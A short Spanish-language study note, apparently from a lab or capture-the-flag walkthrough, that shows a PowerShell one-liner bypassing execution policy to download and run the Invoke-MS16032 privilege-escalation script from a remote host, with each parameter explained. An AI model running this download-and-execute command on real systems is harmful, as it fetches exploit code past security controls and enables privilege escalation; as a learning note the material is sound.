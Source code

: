 
```
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -ep bypass -c "iex (New-Object Net.WebClient).DownloadString('http://10.10.16.12/Invoke-MS16032.ps1')"
```

*Parametros*:
	`-ep` Es executionPolicy
		`bypass` Permite que powershell ejecute scripts sin respetar la politica de ejecucion del sistema, por que widnwos puede bloquear scripts no firmados y bypass evita este bloqueo
	`-c` Es la abreviación de commando
		`iex` Ejecuta el contenido descargado
		`DownloadString` Descarga el archivo
		`(New-Object Net.WebClient)` Crea un objeto de powershell que puede descargar datos desde URLS